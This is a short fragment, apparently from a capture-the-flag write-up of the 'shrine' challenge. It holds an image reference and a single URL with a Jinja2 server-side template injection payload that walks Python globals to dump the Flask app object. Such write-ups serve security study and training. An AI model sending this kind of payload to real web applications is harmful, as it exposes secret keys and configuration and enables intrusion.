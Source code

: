 http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Bsession.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__%7D%7D